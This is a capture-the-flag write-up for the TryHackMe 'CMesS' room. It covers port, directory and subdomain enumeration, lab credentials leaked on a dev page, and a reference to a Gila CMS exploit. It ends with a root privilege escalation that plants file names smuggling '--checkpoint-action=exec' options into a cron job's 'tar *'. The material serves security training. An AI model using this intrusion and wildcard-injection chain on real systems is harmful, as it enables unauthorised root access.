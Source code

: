 # 39 - CMesS (subdomain enum) (tar \* exploitation)

Room Link --> [https://tryhackme.com/room/cmess](https://tryhackme.com/room/cmess)

### Enumeration

Please add `10.10.86.16 cmess.thm` to /etc/hosts

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -Pn -n -vv   -sV -p- -T5

# outputs
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```
{% endcode %}

#### Gobuster enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://cmess.thm -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 500 --no-error -b 500,403,404

# output
/login
/sites
/index
/about
/themes
/INDEX
/1px
/lib
```
{% endcode %}

#### Sub-domain enumeration with wfuzz

{% code overflow="wrap" lineNumbers="true" %}
```bash
wfuzz -c -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://cmess.thm" -H "Host: FUZZ.cmess.thm" -t 42 --hl 107

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                        
=====================================================================

000000019:   200        30 L     104 W      934 Ch      "dev"
```
{% endcode %}

Add the `dev.cmess.thm` to /etc/hosts.

{% code overflow="wrap" %}
```
Development Log
andre@cmess.thm
Have you guys fixed the bug that was found on live?

support@cmess.thm
Hey Andre, We have managed to fix the misconfigured .htaccess file, we're hoping to patch it in the upcoming patch!

support@cmess.thm
Update! We have had to delay the patch due to unforeseen circumstances

andre@cmess.thm
That's ok, can you guys reset my password if you get a moment, I seem to be unable to get onto the admin panel.

support@cmess.thm
Your password has been reset. Here: KPFTN_f2yxe%
```
{% endcode %}

And we can try to login with creds: `andre@cmess.thm : KPFTN_f2yxe%` .

Searching Google for "Gila Cms exploit" and stumbled on [this](https://www.exploit-db.com/exploits/51569)

### Initial Access

Ready nc listener beore runnin the code.

<figure><img src=".gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

Another way to get shell

{% embed url="https://viperone.gitbook.io/pentest-everything/writeups/tryhackme/linux/cmess" %}

###

`cat /etc/crontab` .

<figure><img src=".gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

We can see a cron job owned by root, utilizing the `tar *`  - wildcards. So we can exploit this.

But we have to be in "andre" home dir for this to work, then i realized we have to get access to user andre 1st.

Then i uploaded `linPEAS` into the machine and saw a file in the /opt dir.

<figure><img src=".gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```bash
www-data@cmess:/opt$ cat .password.bak
cat .password.bak
andres backup password
UQfsdCB7aAP6
```
{% endcode %}

We can ssh in as andres and exploit the  `tar *` vuln.

<figure><img src=".gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Esc

exploiting `tar *` or `tar wildcards` .

<figure><img src=".gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

Alternatively:

```
echo -e '#!/bin/bash\n/bin/bash' > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1

# just wait 2 minutes for the job to run.
```

<figure><img src=".gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>



Done.
